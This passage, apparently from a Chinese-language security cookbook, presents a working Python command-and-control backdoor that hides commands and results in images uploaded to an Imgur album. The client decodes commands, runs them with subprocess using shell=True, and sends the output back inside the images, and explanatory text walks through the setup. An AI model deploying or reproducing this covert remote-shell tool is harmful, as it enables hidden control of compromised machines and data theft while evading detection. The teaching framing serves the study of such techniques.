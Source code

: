 ```py
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']

while True:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}", "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

## 它是如何工作的…

首先，我们创建一个`imgur`客户端对象；authenticate 函数处理使用我们的帐户和应用程序对`imgur`客户端进行身份验证。当您运行脚本时，它将输出一个要访问的 URL，以获取要输入的 pin 码。然后它会为我们的 imgur 用户名获取一个相册列表。如果您尚未创建相册，脚本将失败，请确保您已准备好相册。我们将获取列表中的第一张相册，并获得该相册中包含的所有图像的进一步列表。

图像列表通过将最早上传的图像放在第一位来排序；为了让脚本正常工作，我们需要知道最新上传图像的时间戳，因此我们使用`[-1]`索引获取它并将其存储在变量中。完成此操作后，服务器将等待客户端连接：

```py
client = authenticate()
a = client.get_account_albums("<YOUR IMGUR ACCOUNT NAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."
```

一旦服务器等待客户端连接，我们就可以运行客户端脚本。客户端脚本的初始启动创建一个`imgur`客户端对象，就像服务器一样，而不是等待；但是，它会生成一条消息并将其隐藏在随机图像中。此消息包含客户端正在运行的`os`类型（这将使服务器用户更容易知道要运行的命令）、`ready`状态，以及客户端的标识符（如果您希望在脚本上展开以允许多个客户端连接到服务器）。

上传图像后，`last_message_datetime`功能设置为新的时间戳：

```py
client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']
```